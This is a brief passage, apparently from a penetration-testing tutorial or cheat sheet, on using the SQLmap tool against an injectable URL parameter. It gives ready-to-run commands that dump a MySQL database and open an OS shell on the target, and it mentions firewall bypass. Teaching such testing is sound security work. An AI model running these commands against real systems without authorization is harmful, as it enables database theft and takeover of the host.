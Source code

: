 #### SQLmap

Tools such as SQLmap simplify the extraction of information from databases.

```
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id"
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id" --dbms=mysql --dump
```

SQLmap also has numerous other features including firewall bypass and attempting to gain a shell on the target system.

```
sqlmap -u http://10.14.1.23/test.php?id=1 -p "id" --dbms=mysql --os-shell
```
